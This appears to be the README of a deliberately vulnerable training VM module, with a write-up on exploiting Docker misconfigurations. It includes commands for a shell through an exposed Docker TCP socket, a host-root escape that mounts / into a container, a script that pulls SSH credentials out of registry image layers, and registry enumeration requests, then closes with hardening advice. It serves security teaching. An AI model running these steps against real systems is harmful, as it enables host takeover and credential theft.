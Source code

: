 # Docker-Security-Flaws 


## Installation
This module shows two of many possible misconfiguration in Docker environments that could lead to security-related vulnerabilities.
To use it, the `ssh.sh` script, as well as the `docker-security-flaws.sh` script must be included in `modules.txt`. After running the makeVM.sh script, the vulnerable docker setup is ready to use.

## Writeup


- When enumerating ports, you will find port `5500` running a docker registry
- its possible to interact with such registrys via an api


### RCE 

`docker -H tcpL//localhost:4444 exec -it registry /bin/sh`

- provides us a shell inside the container 

## Two ways to exploit the vm

### 1) Exploit VM via via exposed socket (RCE)

- exposed socket in `/var/run` 
- possible to execute docker commands remotely
- `docker -H tcp://localhost:4444 run -v /:/mnt --rm -it alpine chroot /mnt sh`
- mountings the hosts `/` directory to the `/mnt` directory in a new container, `chrooting` and then connecting via `shell`

### 2) 

Since it is possible to load images from the registry, we can further investiagte those. The workstation image contains ssh credentials for the vm. 

```
#!/bin/bash

docker -H tcp://localhost:4444 save 127.0.0.1:5000/workstation:latest > image.tar

mkdir image-data
tar -xf image.tar -C image-data/

cd image-data/
for i in ./*/; do
    cd $i
    tar -xf layer.tar
    if [ -e root/ws.env ]; then
        cat root/ws.env
        exit 0
    fi
    cd ..

```

It is also possible to use tools like [dive](https://github.com/wagoodman/dive) to take a closer look at layers.



## Further information

### Registriy discovery

When discovering a registry, it is always useful to enumerate it further. For example, it is possible to find out all repositories registered on this registry. This is possible as follows:

`GET http://<IP>:<PORT>/v2/_catalog`

Each repository has at least one 'tag' (latest), which can be used for further enumeration. Tags are often software versions or architecture notes.

Its possible to query all published tags via:

`GET http://<IP>:<PORT>/v2/repository/<name>/tags/list`

Its furthermore possible to enumerate a specific repository and the manifest like so:

`GET http://<IP>:<PORT>/v2/cmnatic/<name>/manifests/<tag>`

So it is partly possible to pick off deep hanging fruits and to discover for example information disclosures or default credentials.

### Socket

In most cases, people associate the word socket with network connections. In this case, however, it is a Unix socket. Simply put, UNIX sockets accomplish the same goal as network sockets - transferring data. However, in the host itself with the help of the file system, unlike network interfaces

Due to the fact that UNIX sockets use the filesystem directly, you can use filesystem permissions to decide who or what can read/write. 

Users interact with Docker by using the Docker Engine. For example, commands such as `docker pull` or `docker run` will be executed by the use of a socket - this can either be a UNIX or a TCP socket, but by default, it is a UNIX socket. This is why you must be a part of the "docker" group to use the docker command (remembering that UNIX sockets can use file permissions here!).

Developers love to automate, and this is proven nonetheless with Docker. Whilst Docker uses a UNIX socket, meaning that it can only interact from the host itself. However, someone may wish to remotely execute Docker commands such as in Docker management tools like Portainer or DevOps applications like Jenkins to test their program.


To achieve this, the daemon must use a TCP socket instead, permitting data for the Docker daemon to be communicated using the network interface and ultimately exposing it to the network for us to exploit.
It would be advisable to use some form of authentication (e.g., a proxy) to prevent misuse as shown in this vulnerable machine. Even better: Do not expose a socket at all.

### Docker images / layers

Do not use docker images from untrusted sources. If you use docker images, try to understand the image creation process. Do not store or load credentials in docker images.


